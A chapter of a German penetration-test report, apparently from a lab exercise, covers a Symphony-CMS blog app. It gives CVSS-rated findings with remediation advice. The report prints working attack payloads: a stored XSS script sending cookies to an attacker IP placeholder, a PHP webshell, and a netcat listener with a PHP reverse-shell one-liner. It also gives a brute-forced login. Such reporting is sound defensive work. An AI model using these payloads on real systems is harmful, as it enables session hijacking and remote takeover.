\chapter{Pediküre Salon Stolzfuß}
Die Webanwendung \textit{Pediküre-Salon Stolzfuß} ist unter der lokalen Adresse \url{http://10.0.68.101:80} erreichbar. Sie enthält Blogeinträge über den Pediküre-Salon. Ein Screenshot der Startseite der Webanwendung ist in \autoref{fig:01_pedikuere_salon} zu finden.

\vfill
\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/screenshots/03_pedikuere_salon.png}
    \caption{Webanwendung Pediküre Salon Stolzfuß}
    \label{fig:01_pedikuere_salon}
\end{figure}
\vfill
\newpage

\cvss{av=local, ac=high, pr=high, ui=required, s=unchanged, c=low, i=low, a=low}
\cvssdescription{Die Veröffentlichung von Systeminformationen und Benutzernamen führt zu einer Vereinfachung von Angriffen auf das System.}
\section{\makecvssbadge Information Disclosure}
\cvssaddtosummary{Pediküre Salon Stolzfuß: Information Disclosure}
\subsection*{Proof of concept}
 Auf der Startseite können Informationen über das System abgerufen werden. In der Fußzeile der Webanwendung wird angegeben, dass das CMS \textit{Symphony} verwendet wird. Über das öffentliche Github-Repository zu \textit{Symphony} kann herausgefunden werden, dass der Login für die Webanwendung standardmäßig unter der Subadresse \texttt{/symphony} zu finden ist. Außerdem kann der Benutzer \textit{bodo} über die veröffentlichten Blog-Einträge ermittelt werden. 

\subsection*{Empfehlungen}
\begin{itemize}
    \item Entfernung von System- und CMS-Hinweisen: Entfernen oder verbergen Sie Hinweise auf das verwendete CMS oder andere System-Komponenten aus der Webanwendung. Dadurch wird es Angreifern erschwert, gezielt bekannte Schwachstellen auszunutzen .
    \item Vermeiden Sie die Anzeige von Benutzernamen: Verwenden Sie für die Anzeige der öffentlichen Beiträge von Benutzern Benutzernamen, die sich von den Benutzernamen für die Anmeldung unterscheiden. Dies erschwert Brute-Force-Angriffe (siehe \cite{owaspAuthenticationOWASP}).
\end{itemize}

\cvss{av=local, ac=low, pr=none, ui=required, s=changed, c=low, i=low, a=low}
\cvssdescription{Brute-Force Angriff auf das Anmeldeformular mit bekannten Nutzernamen und einer Passwortliste.}

\section{\makecvssbadge Broken Authentication}
\cvssaddtosummary{Pediküre Salon Stolzfuß: Broken Authentication}

\subsection*{Proof of Concept}
Mit diesen Informationen kann ein Brute-Force-Angriff mithilfe der Burp Suite oder eines ähnlichen Tools durchgeführt werden. Dadurch konnten die Login-Daten \texttt{bodo:welcome} erlangt werden. Mit diesen kann sich in der Webanwendung angemeldet werden.

\subsection*{Empfehlungen}
\begin{itemize}
    \item Strenge Passwortrichtlinien: Erzwingen Sie die Verwendung komplexer und langer Passwörter und ändern Sie Standardpasswörter, um einfache Passwörter zu vermeiden (siehe \cite{bsi_passwords}).
    \item Account-Sperrung und Ratenbegrenzung: Implementieren Sie Mechanismen, die nach mehreren fehlgeschlagenen Anmeldeversuchen eine Sperrung oder Verzögerung auslösen, um automatisierte Angriffe zu verhindern (siehe \cite{owaspAuthenticationOWASP}).
    \item Multi-Faktor-Authentifizierung (MFA): Ergänzt die Passwortauthentifizierung um einen zusätzlichen Faktor, um den Zugriff auch mit kompromittierten Zugangsdaten zu verhindern (siehe \cite{owaspAuthenticationOWASP}).
\end{itemize}

\cvss{av=local, ac=low, pr=none, ui=required, s=changed, c=high, i=low, a=low}
\cvssdescription{Stored Cross-Site Scripting Angriff führt dazu, dass Session-IDs von Nutzern erlangt werden können.}

\section{\makecvssbadge Stored Cross-Site Scripting (XSS)}
\cvssaddtosummary{Pediküre Salon Stolzfuß: Stored Cross-Site Scripting (XSS)}
\subsection*{Proof of Concept}
Der Angreifer kann nun einen neuen Block-Eintrag erstellen und den folgenden JavaScript-Code in das Textfeld für den Titel des Blogeintrags einfügen (siehe \autoref{listing:pedicure-xss}). Dadurch werden die SessionIDs aller Benutzer, die die Startseite mit den Blogeinträgen öffnen, an den Angreifer gesendet. Auf diese Weise wird die SessionID für den Benutzer \texttt{Odo} ermittelt, der über Entwicklerrechte auf dem Webserver verfügt.

\begin{listing}[!ht]
\begin{minted}{js}
<span id="sebastian" />
<script>
    image = document.createElement('img');
    image.src = "http://<Angreifer-IP>/?" + document.cookie;
    document.getElementById('sebastian').appendChild(image);
</script>
\end{minted}
\caption{Cross Site Scripting zum Erlangen von SessionIDs}
\label{listing:pedicure-xss}
\end{listing}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Eingabevalidierung: Validieren und escapen Sie alle Benutzereingaben, um Injection-Angriffe zu verhindern (siehe \cite{owaspInputValidation}).
    \item Sichere Session-Cookies: Setzen Sie das HTTP-Only-Flag für Cookies für die Session-IDs, damit diese nicht durch clientseitiges JavaScript ausgelesen werden können (siehe \cite{owaspSessionManagement}).
\end{itemize}



\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Ein unsichere Dateiupload in Verbindung mit schwachen Zugriffsrechten auf hochgeladene Dateien ermöglichen den Upload einer Webshell, welche zum Erstellen einer Reverse Shell genutzt werden kann.}

\section{\makecvssbadge Remote Code Execution (RCE)}
\cvssaddtosummary{Pediküre Salon Stolzfuß: Remote Code Execution (RCE)}

\subsection*{Proof of Concept}
Dieser Benutzer \textit{Odo} hat Entwicklerrechte für die Webanwendung und kann Konfigurationen an der Webanwendung vornehmen. Unter der Adresse \url{http://10.0.68.101:80/} können die Felder zum Erstellen eines Blogeintrags geändert werden. Es kann ein Datei-Upload-Feld hinzugefügt werden, das das Hochladen von PHP-Dateien ermöglicht. PHP-Dateien müssen explizit als gültiges Datenformat in die Validierungsregeln aufgenommen werden. Dadurch kann ein Blogeintrag erstellt werden, an den eine PHP-Webshell angehängt wird (siehe \autoref{listing:php-webshell}). Der Angreifer kann mit dem Befehl in \autoref{listing:netcat-listener} einen Netcat-Listener starten und anschließend in der Web-Shell mit dem Befehl in \autoref{listing:pedikuere:revers_shell} eine Reverse Shell starten. Ein Nachweis ist in \autoref{fig:01_pedikuere_salon_proof} dargestellt.

\begin{listing}[!ht]
\begin{minted}{bash}
nc -lvp 9001
\end{minted}
\caption{Netcat-Listener für eine Reverse Shell auf Port 9001}
\label{listing:netcat-listener}
\end{listing}

\begin{listing}[!ht]
\begin{minted}{bash}
php -r '\$sock=fsockopen("<Angreifer-IP>",9001);exec("/bin/sh -i <\&3 >\&3 2>\&3");'
\end{minted}
\caption{Reverse Shell initiieren über die hochgeladene Webshell}
\label{listing:pedikuere:revers_shell}
\end{listing}


\begin{listing}[!ht]
\begin{minted}{php}
<php system($_REQUEST['cmd']); ?>
\end{minted}
\caption{Einfache PHP Webshell}
\label{listing:php-webshell}
\end{listing}

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/01_pedikuere_salon_proof.png}
    \caption{Proof für die Webanwendung Pediküre Salon Stolzfuß}
    \label{fig:01_pedikuere_salon_proof}
\end{figure}


\subsection*{Empfehlungen}
\begin{itemize}
    \item Sichere Dateiuploads: Upload-Verzeichnisse sollten so konfiguriert werden, dass darin hochgeladene Dateien nicht als PHP-Code ausgeführt werden können (z.B. durch entsprechende Serverkonfiguration oder mittels .htaccess-Regeln) (siehe \cite{owaspFileUpload}).
\end{itemize}












